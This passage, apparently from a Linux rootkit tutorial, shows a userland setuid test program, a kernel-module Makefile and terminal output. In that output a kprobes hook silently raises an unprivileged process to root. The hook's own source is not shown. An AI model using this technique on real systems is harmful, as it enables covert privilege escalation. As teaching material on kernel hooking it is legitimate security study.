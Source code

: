 ╔════════════════════════════════════════════════════════════════════════════╗
  [guest@archlinux rk]$ cat main.c
  #include <stdio.h>
  #include <unistd.h>
  #include <sys/types.h>

  int main() {
      printf("Current UID: %d\n", getuid());

      // set UID to root (0)
      setuid(0);

      printf("UID after setuid: %d\n", getuid());
      return 0;
  }
╚════════════════════════════════════════════════════════════════════════════╝

And here we have some userland C code to test the setuid hook.

╔════════════════════════════════════════════════════════════════════════════╗
  [guest@archlinux rk]$ cat Makefile
  obj-m += kp_hook.o

  all:
      make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

  clean:
      make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
╚════════════════════════════════════════════════════════════════════════════╝

Now lets run this code:

╔════════════════════════════════════════════════════════════════════════════╗
  [guest@archlinux rk]$ make
  [guest@archlinux rk]$ sudo insmod kp_hook.ko

  [guest@archlinux rk]$ sudo rmmod kp_hook.ko
  [guest@archlinux rk]$ make clean

  [guest@archlinux rk]$ sudo dmesg
  [ 8068.408831] module loaded
  [ 8068.409809] hooked

  [guest@archlinux rk]$ ./main
  Current UID: 1000
  UID after setuid: 0

  [guest@archlinux rk]$ sudo dmesg
  [ 8068.408831] module loaded
  [ 8068.409809] hooked
  [ 8354.503130] setuid hook called, elevating privs...
╚════════════════════════════════════════════════════════════════════════════╝

Usually, the userland process would not have changed its setuid to 0 since it
did not run with high enough privileges, however, our registered kprobes post
handler intercepted the execution of the function and elevated the processes
privileges.
